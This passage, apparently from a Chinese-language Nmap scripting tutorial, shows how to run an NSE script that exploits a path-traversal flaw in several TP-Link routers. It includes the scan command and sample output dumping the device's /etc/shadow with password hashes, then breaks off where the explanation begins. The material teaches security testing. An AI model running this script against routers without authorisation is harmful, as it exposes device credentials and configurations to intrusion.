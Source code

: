 ```
local _, _, rfile_content = string.find(response.body, 'SCRIPT>(.*)')
```

1.  最后，使用以下命令执行脚本：

```
$ nmap -p80 --script http-tplink-dir-traversal.nse <target>

```

易受攻击的设备将产生以下输出：

```
-- @output
-- PORT   STATE SERVICE REASON
-- 80/tcp open  http    syn-ack
-- | http-tplink-dir-traversal:
-- |   VULNERABLE:
-- |   Path traversal vulnerability in several TP-Link wireless routers
-- |     State: VULNERABLE (Exploitable)
-- |     Description:
-- |       Some TP-Link wireless routers are vulnerable to a path traversal vulnerability that allows attackers to read configurations or any other file in the device.
-- |       This vulnerability can be exploited remotely and without authentication.
-- |       Confirmed vulnerable models: WR740N, WR740ND, WR2543ND
-- |       Possibly vulnerable (Based on the same firmware): WR743ND,WR842ND,WA-901ND,WR941N,WR941ND,WR1043ND,MR3220,MR3020,WR841N.
-- |     Disclosure date: 2012-06-18
-- |     Extra information:
-- |       /etc/shadow :
-- |   
-- |   root:$1$$zdlNHiCDxYDfeF4MZL.H3/:10933:0:99999:7:::
-- |   Admin:$1$$zdlNHiCDxYDfeF4MZL.H3/:10933:0:99999:7:::
-- |   bin::10933:0:99999:7:::
-- |   daemon::10933:0:99999:7:::
-- |   adm::10933:0:99999:7:::
-- |   lp:*:10933:0:99999:7:::
-- |   sync:*:10933:0:99999:7:::
-- |   shutdown:*:10933:0:99999:7:::
-- |   halt:*:10933:0:99999:7:::
-- |   uucp:*:10933:0:99999:7:::
-- |   operator:*:10933:0:99999:7:::
-- |   nobody::10933:0:99999:7:::
-- |   ap71::10933:0:99999:7:::
-- |   
-- |     References:
-- |_      http://websec.ca/advisories/view/path-traversal-vulnerability-tplink-wdr740
```

## 它是如何工作的...

脚本`http-tplink-dir-traversal.nse`执行以下任务以利用讨论的路径遍历漏洞：
